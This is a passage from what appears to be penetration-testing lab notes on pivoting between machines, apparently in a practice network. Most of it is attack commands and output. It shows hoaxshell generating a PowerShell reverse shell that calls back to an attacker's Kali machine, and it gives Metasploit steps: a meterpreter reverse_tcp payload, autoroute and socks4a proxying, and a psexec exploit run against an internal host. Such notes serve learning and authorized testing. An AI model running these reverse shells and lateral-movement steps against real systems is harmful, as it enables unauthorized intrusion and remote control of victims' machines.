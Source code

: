 </div>

Great, we're in target 3 machine!

#### In addition, we can use this tool to create a powershell reverse shell for Windows machine to communicate back to attacker machine (kali).

{% embed url="https://github.com/t3l3machus/hoaxshell" %}

```bash
python hoaxshell.py -s <Victim_IP> -p 9999
```

it generates a reverse shell payload on execute on windows victim machine using powershell.

It permits us to obtain a reverse shell connection with windows victim machine on our attacker kali machine.

## Metasploit

#### Pivoting

{% embed url="https://www.offsec.com/metasploit-unleashed/pivoting/" %}
Pivoting
{% endembed %}

#### Port Forwarding

{% embed url="https://www.offsec.com/metasploit-unleashed/portfwd/" %}
Portfwd
{% endembed %}

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

### Metasploit

```bash
route add X.X.X.X 255.255.255.0 1
use auxiliary/server/socks4a
run
proxychains msfcli windows/* PAYLOAD=windows/meterpreter/reverse_tcp LHOST=IP LPORT=443 RHOST=IP E

or

# https://www.offensive-security.com/metasploit-unleashed/pivoting/
meterpreter > ipconfig
IP Address  : 10.1.13.3
meterpreter > run autoroute -s 10.1.13.0/24
meterpreter > run autoroute -p
10.1.13.0          255.255.255.0      Session 1
meterpreter > Ctrl+Z
msf auxiliary(tcp) > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 10.1.13.2
msf exploit(psexec) > exploit
meterpreter > ipconfig
IP Address  : 10.1.13.2
```

